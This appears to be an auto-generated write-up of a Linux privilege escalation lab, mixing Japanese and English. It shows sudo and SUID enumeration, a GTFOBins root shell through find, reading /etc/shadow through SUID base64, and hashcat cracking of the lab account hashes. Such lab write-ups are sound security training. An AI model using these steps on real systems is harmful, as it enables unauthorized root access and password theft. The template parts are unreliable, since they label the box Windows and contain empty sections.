

## Overview

| Field                     | Value |
|---------------------------|-------|
| OS                        | Windows |
| Difficulty                | Not specified |
| Attack Surface            | Not specified |
| Primary Entry Vector      | web, ssh attack path to foothold |
| Privilege Escalation Path | Local misconfiguration or credential reuse to elevate privileges |

## Reconnaissance

### 1. PortScan

---
## Rustscan

💡 Why this works  
High-quality reconnaissance narrows a large attack surface into a few validated exploitation paths. Accurate service mapping prevents time loss and supports targeted follow-up testing.

## Initial Foothold

### Not implemented (not recorded in PDF)


## Nmap


### Not implemented (not recorded in PDF)


### 2. Local Shell

---

PDFメモから抽出した主要コマンドと要点を整理しています。必要に応じて後続で詳細追記してください。

### 実行コマンド（抽出）
```bash
cat /etc/passwd
hashcat -m 1800 -a 0 unshadowed.txt /usr/share/wordlists/rockyou.txt --force
hashcat (v6.2.6) starting
base64 /home/ubuntu/flag3.txt | base64 --decode
cat /etc/crontab
/etc/crontab: system-wide crontab
Unlike any other crontab you don't have to run the `crontab'
command to install the new version when you edit this file
and files in /etc/cron.d. These files also have username fields,
that none of the other crontabs do.
Example of job definition:
.---------------- minute (0 - 59)
|  .------------- hour (0 - 23)
|  |  .---------- day of month (1 - 31)
|  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
|  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
|  |  |  |  |
*  *  *  *  * user-name command to be executed
cat -n backup.sh
hashcat -m 1800 -a 0 unshadowed2.txt /usr/share/wordlist/rockyou.txt --force
```

### 抽出画像

画像抽出なし（PDF内に有効な埋め込み画像なし）

### 抽出メモ（先頭120行）
```bash
Linux Privilege Escalation
November 18, 2023 0:59
#6 Privilege Escalation: Sudo
See details with sudo -l -l
$ sudo -l -l
Matching Defaults entries for karen on ip-10-10-205-4:
env_reset, mail_badpass,
secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
User karen may run the following commands on ip-10-10-205-4:
Sudoers entry:
RunAsUsers: ALL
Options: !authenticate
Commands:
/usr/bin/find
Sudoers entry:
RunAsUsers: ALL
Options: !authenticate
Commands:
/usr/bin/less
Sudoers entry:
RunAsUsers: ALL
Options: !authenticate
Commands:
/usr/bin/nano
You can see that find can be executed with sudo privileges
god rusty command
sudo find . -exec /bin/sh \; -quit
Searching directories under the current directory
Run /bin/bash on the first file or directory found, but since -quit is specified,
find will exit immediately.
I can elevate to administrator privileges and find the flag nicely.
#7 Privilege Escalation: SUID
Check the list of files with suid set
find / -type f -perm -04000 -ls 2>/dev/null
Get user list
$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
OneNote
1/8
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
sshd:x:109:65534::/run/sshd:/usr/sbin/nologin
landscape:x:110:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:111:1::/var/cache/pollinate:/bin/false
ec2-instance-connect:x:112:65534::/nonexistent:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
gerryconway:x:1001:1001::/home/gerryconway:/bin/sh
user2:x:1002:1002::/home/user2:/bin/sh
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
karen:x:1003:1003::/home/karen:/bin/sh
Get hash value
cat /etc/shadow
root:*:18561:0:99999:7:::
daemon:*:18561:0:99999:7:::
bin:*:18561:0:99999:7:::
sys:*:18561:0:99999:7:::
sync:*:18561:0:99999:7:::
games:*:18561:0:99999:7:::
man:*:18561:0:99999:7:::
lp:*:18561:0:99999:7:::
mail:*:18561:0:99999:7:::
news:*:18561:0:99999:7:::
uucp:*:18561:0:99999:7:::
proxy:*:18561:0:99999:7:::
www-data:*:18561:0:99999:7:::
backup:*:18561:0:99999:7:::
list:*:18561:0:99999:7:::
irc:*:18561:0:99999:7:::
gnats:*:18561:0:99999:7:::
nobody:*:18561:0:99999:7:::
systemd-network:*:18561:0:99999:7:::
systemd-resolve:*:18561:0:99999:7:::
systemd-timesync:*:18561:0:99999:7:::
messagebus:*:18561:0:99999:7:::
syslog:*:18561:0:99999:7:::
_apt:*:18561:0:99999:7:::
tss:*:18561:0:99999:7:::
uuidd:*:18561:0:99999:7:::
tcpdump:*:18561:0:99999:7:::
sshd:*:18561:0:99999:7:::
landscape:*:18561:0:99999:7:::
pollinate:*:18561:0:99999:7:::
ec2-instance-connect:!:18561:0:99999:7:::
systemd-coredump:!!:18796::::::
ubuntu:!:18796:0:99999:7:::
gerryconway:$6$vgzgxM3ybTlB.wkV$48YDY7qQnp4purOJ19mxfMOwKt.H2LaWKPu0zKlWKaUMG1N7weVzqobp65RxlMIZ/NirxeZdOJMEOp3of
user2:$6$m6VmzKTbzCD/.I10$cKOvZZ8/rsYwHd.pE099ZRwM686p/Ep13h7pFMBCG4t7IukRqc/fXlA1gHXh9F2CbwmD4Epi1Wgh.Cl.VV1mb/:187
lxd:!:18796::::::
karen:$6$VjcrKz/6S8rhV4I7$yboTb0MExqpMXW0hjEJgqLWs/jGPJA7N/fEoPMuYLY1w16FwL7ECCbQWJqYLGpy.Zscna9GILCSaNLJdBP1p8/:18796
Check the list of files set to suid
$find / -perm -u=s -type f 2>/dev/null
...
/usr/bin/base64
...
Make sure base64 is set to suid
```

💡 Why this works  
Initial access succeeds when enumeration findings are turned into a practical exploit chain. Capturing credentials, file disclosure, or direct RCE creates reliable pivot points for privilege escalation.

## Privilege Escalation

### 3.Privilege Escalation

---

Privilege elevation related commands extracted from PDF memo.

```bash
sudo -l -l
getcap -r / 2>/dev/null
```

💡 Why this works  
Privilege escalation depends on chaining local weaknesses such as sudo misconfiguration, weak file permissions, or credential reuse. If a GTFOBins technique is used, the mechanism is that an allowed binary executes a child process or shell without dropping elevated effective privileges.

## Credentials

```text
secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
/usr/bin/find
/usr/bin/less
/usr/bin/nano
sudo find . -exec /bin/sh \; -quit
最初に見つけたファイルかディレクトリに対して/bin/bashを実行するが-quitがあるので
find / -type f -perm -04000 -ls 2>/dev/null
$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
```

## Lessons Learned / Key Takeaways

### 4.Overview

---




## References

- nmap
- rustscan
- sudo
- ssh
- cat
- find
- base64
- GTFOBins
